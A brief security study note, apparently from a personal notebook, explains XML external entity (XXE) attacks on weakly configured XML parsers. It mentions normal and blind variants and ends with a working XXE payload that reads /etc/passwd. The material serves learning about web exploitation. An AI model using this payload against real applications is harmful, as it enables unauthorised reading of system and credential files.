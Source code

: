 #WebExploitation 
An XML external entity attack is a type of attack against an application that parses XML input. It occurs when XML input containing a reference to an external entity is processed by  a weakly configured XML parser
![[XXE.JPG]]
![[XXE2.JPG]]
Examples of .xml files for normal and blind XXE in assets directory. Sitemap.xml if for normal and contacts.xml for blind. The latter leverages evil.dtd


```xml
<?xml version="1.0"?>  
<!DOCTYPE data [ <!ELEMENT data ANY> <!ENTITY xxe SYSTEM "/etc/passwd" >]>  
<data><X-Token>  
&xxe;  
</X-Token>  
</data>
```

